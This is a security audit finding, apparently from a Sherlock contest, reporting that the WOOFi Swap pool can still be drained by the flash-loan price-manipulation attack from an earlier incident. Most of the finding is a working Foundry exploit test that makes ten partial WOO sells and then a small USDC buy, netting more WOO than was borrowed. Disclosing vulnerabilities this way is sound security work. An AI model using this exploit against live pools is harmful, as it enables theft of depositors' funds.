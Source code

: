 Icy Denim Cougar

high

# Pool can be drained

## Summary
The pool can be drained just as it was during the incident that occurred previously.
## Vulnerability Detail
`maxNotionalSwap` and `maxGamma` and the new math formula do not prevent the pool being drainable. Same attack vector that happent previously is still applicable:
https://woo.org/blog/en/woofi-spmm-exploit-post-mortem
https://rekt.news/woo-rekt/

Flashloan 99989999999999999990000 (99_990) WOO
Sell WOO partially (in 10 pieces) assuming maxGamma | maxNotionalSwap doesnt allow us to do it in one go
Sell 20 USDC and get 199779801821639475527975 (199_779) WOO
Repay flashloan, pocket the rest of the 100K WOO.

**Coded PoC:**
```solidity
function test_Exploit() public {
        // Flashloan 99989999999999999990000 (99_990) WOO
        // Sell WOO partially (in 10 pieces) assuming maxGamma | maxNotionalSwap doesnt allow us to do it in one go
        // Sell 20 USDC and get 199779801821639475527975 (199_779) WOO
        // Repay flashloan, pocket the rest of the 100K WOO. 

        // Reference values: 
        // s = 0.1, p = 1, c = 0.0001 

        // bootstrap the pool 
        uint usdcAmount = 100_0000_0_0000000000000_000;
        deal(USDC, ADMIN, usdcAmount);
        deal(WOO, ADMIN, usdcAmount);
        deal(WETH, ADMIN, usdcAmount);
        vm.startPrank(ADMIN);
        IERC20(USDC).approve(address(pool), type(uint256).max);
        IERC20(WOO).approve(address(pool), type(uint256).max);
        IERC20(WETH).approve(address(pool), type(uint256).max);
        pool.depositAll(USDC);
        pool.depositAll(WOO);
        pool.depositAll(WETH);
        vm.stopPrank();
        ////////////////////////

        // fund mr TAPIR
        vm.startPrank(TAPIR);
        uint wooAmountForTapir = 9999 * 1e18 - 1000;
        deal(WOO, TAPIR, wooAmountForTapir * 10);
        IERC20(USDC).approve(address(router), type(uint256).max);
        IERC20(WOO).approve(address(router), type(uint256).max);
        IERC20(WETH).approve(address(router), type(uint256).max);
        vm.stopPrank();
        ////////////////////////
        
        // get the price before the swaps
        (uint128 price, ) = oracle.woPrice(WOO);
        console.log("Price before the swap", price);

        // here, we assume maxGamma and maxNotionalSwap can save us. However, due to how AMM behaves
        // partial swaps in same tx will also work and it will be even more profitable! 
        uint cumulative;
        for (uint i; i < 10; ++i) {
            vm.prank(TAPIR);
            cumulative += router.swap(WOO, USDC, wooAmountForTapir, 0, payable(TAPIR), TAPIR);
        }

        // how much we bought and what's the final swap? 
        console.log("USDC bought after swaps", cumulative);
        (price, ) = oracle.woPrice(WOO);
        console.log("Price after swap", price);

        // sell 20 USDC, how much WOO we get? (199779801821639475527975)
        vm.prank(TAPIR);
        uint receivedWOO = router.swap(USDC, WOO, 20 * 1e6, 0, payable(TAPIR), TAPIR);
        console.log("Received WOO", receivedWOO); // 199779801821639475527975 (10x)
        console.log("Total WOO flashloaned", wooAmountForTapir * 10); // 99989999999999999990000

        // attack is succesfull 
        assertGe(receivedWOO, wooAmountForTapir * 10);
    }
```
## Impact

## Code Snippet
https://github.com/sherlock-audit/2024-03-woofi-swap/blob/65185691c91541e33f84b77d4c6290182f137092/WooPoolV2/contracts/WooPPV2.sol#L420-L465
## Tool used

Manual Review

## Recommendation

